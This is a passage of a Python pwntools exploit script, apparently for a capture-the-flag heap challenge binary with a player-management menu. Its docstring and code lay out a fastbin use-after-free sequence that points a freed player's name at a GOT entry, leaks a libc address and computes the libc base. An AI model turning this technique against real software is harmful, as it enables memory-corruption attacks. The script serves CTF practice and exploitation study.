 ```python
    t.sendline('2')
    t.recvuntil('Enter index: ')
    t.sendline(str(index))

    recvuntil_main_menu(t)

def name_from_address(address):
    address = packing.p32(address)
    return "A"*16 + address[:-1] # the NULL byte will be inserted by the application

def extract_value_from_player_infos(text):
    start = text.index(': ') + 2
    end   = text.index('\n\tA/D')

    return text[start:end]

def setup(t, got, offset):
    '''
    We initiate a dance that allows to build a read/write primitive
    playing with the fastbin chunks: the steps of this dance are

        1. add a player with a name length equal to the struct size
        2. add another player with a name length greater than the struct size
        3. select the first player
        4. remove the first player (index 0)
        5. remove the second player (index 1)
        6. add a new player with name length matching the struct size

    At this point the name field of the selected (and free) player points
    to the last 4 bytes of the string containing the name of the unique player.

    For now it's not clean, I mean, you have an unsorted chunk to be handled to
    restart a new dance ;)
    '''
    log.info('trying to overwrite got @0x%x' % got)

    add_player(t, "A"*15) # 16 - null byte
    add_player(t, "B"*30)
    select_player(t, 0)
    delete_player(t, 0)
    delete_player(t, 1)
    add_player(t, name_from_address(got))

    output = show_player(t)

    log.debug(output)

    value = extract_value_from_player_infos(output)
    log.debug(repr(value))
    address_libc = packing.u64(value + '\x00\x00')
    log.info('libc function address 0x%x' % address_libc)
    address_libc_base = address_libc - offset
    log.info('libc base address     0x%x' % (address_libc_base))

    return address_libc_base

def get_target(extra_bp=None):
    target = None
    cwd = os.path.dirname(__file__)
    target_path = os.path.join(cwd, 'main_modified.elf')

    if args.LOCAL:
        target_args = [target_path,] if not args.GDB else ['gdb', target_path]
```